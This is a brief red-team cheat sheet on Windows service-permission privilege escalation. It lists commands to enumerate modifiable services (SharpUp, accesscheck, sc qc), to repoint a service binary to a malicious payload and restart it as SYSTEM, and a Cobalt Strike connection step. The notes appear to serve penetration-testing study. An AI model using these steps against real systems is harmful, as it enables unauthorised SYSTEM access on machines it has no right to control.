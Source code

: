 # Windows Service Permissions

- Check the permissions on the service, can a default user modify the service?

- Change the binary location to malicous payload
- Change the permissions the service runs as to SYSTEM
- Restart the service

## Enumeration

- Find service permissions

```
SharpUp.exe audit ModifiableServices
```

- Accesscheck from sysinternals 
- Look for services with CHANGECONFIG or SERVICE_ALL_ACCESS permissions. 

```
sc qc <service name>
```

## Exploitation

- Replace the binary with a malicious one
- restart the service

```
sc config <service name> binpath= <malicious payload>
sc start <servicename>
```

## Cobalt Strike

- Use a TCP localhost then connect to it when the service runs

```
connect localhost <port>
```
